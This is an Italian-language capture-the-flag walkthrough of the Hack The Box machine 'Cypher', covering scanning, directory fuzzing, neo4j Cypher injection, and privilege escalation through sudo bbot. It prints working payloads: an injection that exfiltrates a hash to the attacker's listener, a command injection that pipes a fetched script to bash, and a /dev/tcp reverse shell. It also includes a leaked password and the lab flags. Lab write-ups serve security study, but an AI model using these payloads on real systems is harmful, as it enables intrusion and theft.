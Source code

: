 # Cypher

IP: 10.10.11.57

<!-- https://www.hyhforever.top/htb-cypher/ -->

# NMAP

Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-19 20:43 CEST
Stats: 0:00:16 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 20:44 (0:00:06 remaining)
Stats: 0:00:53 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.30% done; ETC: 20:44 (0:00:00 remaining)
Nmap scan report for 10.10.11.57
Host is up (0.22s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
**22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.8 (Ubuntu Linux; protocol 2.0)**
| ssh-hostkey: 
|   256 be:68:db:82:8e:63:32:45:54:46:b7:08:7b:3b:52:b0 (ECDSA)
|_  256 e5:5b:34:f5:54:43:93:f8:7e:b6:69:4c:ac:d6:3d:23 (ED25519)
**80/tcp open  http    nginx 1.24.0 (Ubuntu)**
|_http-title: Did not follow redirect to http://cypher.htb/
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=5/19%OT=22%CT=1%CU=40423%PV=Y%DS=2%DC=I%G=Y%TM=682B
OS:7C1E%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10A%TI=Z%CI=Z%TS=A)SEQ(S
OS:P=106%GCD=1%ISR=10A%TI=Z%CI=Z%TS=C)SEQ(SP=106%GCD=1%ISR=10A%TI=Z%CI=Z%II
OS:=I)SEQ(SP=106%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%TS=7)OPS(O1=M542ST11NW7%O2=M5
OS:42ST11NW7%O3=M542NNT11NW7%O4=M542ST11NW7%O5=M542ST11NW7%O6=M542ST11)WIN(
OS:W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0
OS:%O=M542NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=O%F=AS%RD=0%Q=)T1(R=Y%DF=Y%
OS:T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T
OS:=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=
OS:0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(
OS:R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 67.08 seconds

# Fuzzing

> ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/namelist.txt  -H "Host: FUZZ.cypher.thm" -u http://10.10.11.57

Ci avrebbe messo ore:

> dirsearch -u cypher.htb -t 50 -x 404

output:
```
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 50 | Wordlist size: 11460

Output File: /home/carromano/My_ETH_Tool_list/HTB/VPN's Configurations/reports/_cypher.htb/_25-05-19_20-53-53.txt

Target: http://cypher.htb/

[20:53:54] Starting: 
[20:54:18] 200 -    5KB - /about
[20:54:18] 200 -    5KB - /about.html
[20:54:44] 307 -    0B  - /api  ->  /api/docs
[20:54:44] 307 -    0B  - /api/  ->  http://cypher.htb/api/api
[20:55:05] 307 -    0B  - /demo  ->  /login
[20:55:06] 307 -    0B  - /demo/  ->  http://cypher.htb/api/demo
[20:55:32] 200 -    4KB - /login.html
[20:55:32] 200 -    4KB - /login
[20:56:26] 301 -  178B  - /testing  ->  http://cypher.htb/testing/

Task Completed

```

# Exploit

scrivo uno script per fare delle GET ad ognuna di queste pagine e stamparmi il risultato in dei file txt.

Faccio la stessa cosa con OPTIONS -> non serve a nulla

Leggendo nei vari codici scopro che username e pass sono salvati in neo4j -> VULNERABILE 

inoltre, navigando a /testing riesco a scaricare qualcosa -> un jar

Capisco di avere neo4j -> cerco online script per exploitare la Cypher injection

1. apro un server python in locale sulla 80
2. mando la seguente stringa: `admin' OR 1=1 LOAD CSV FROM 'http://10.10.16.25/ppp='+h.value AS y Return ''//` come username su burp, password arbitraria.

'''
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.57 - - [23/May/2025 10:43:37] code 404, message File not found
10.10.11.57 - - [23/May/2025 10:43:37] "GET /ppp=9f54ca4c130be6d529a56dee59dc2b2090e43acf HTTP/1.1" 404 -
'''
Quindi ho questo hash: 9f54ca4c130be6d529a56dee59dc2b2090e43acf

uso questo hash per far fare una syscall al sistema ([link](https://www.hyhforever.top/htb-cypher/)):

1. creo il file shell.sh
```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.16.25/9999 0>&1
```
2. hosto il python.http server dalla cartella della shell
3. apro nc in ascolto sulla porta 9999
4. mando la stringa dell'injection

username: `admin' return h.value AS value  UNION CALL custom.getUrlStatusCode(\"127.0.0.1;curl 10.10.16.235/shell.sh|bash;\") YIELD statusCode AS value  RETURN value ; //`

5. uso la shell da nc

user.txt non è leggibile, ma c'è un file che stampato restituisce:

```
neo4j@cypher:/home/graphasm$ cat bbot_preset.yml

targets:
  - ecorp.htb

output_dir: /home/graphasm/bbot_scans

config:
  modules:
    neo4j:
      username: neo4j
      password: cU4btyib.20xtCMCXkBmerhK

```


mi connetto in SSH a Graphasm:


> ssh graphasm@cypher.htb

> password: cU4btyib.20xtCMCXkBmerhK


# USER FLAG

02d95f8d211e581188c5dbeb6a3620ac

# PRIVESC
```
graphasm@cypher:~$ sudo -l
Matching Defaults entries for graphasm on cypher:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User graphasm may run the following commands on cypher:
    (ALL) NOPASSWD: /usr/local/bin/bbot
```

guardando le impostazioni di bbot provo a caricare il file della flag come configurazione per poi stampare in debug

> sudo /usr/local/bin/bbot -cy /root/root.txt --debug

## ROOT FLAG
0435e5951e95f8fc5716fe0f5261163f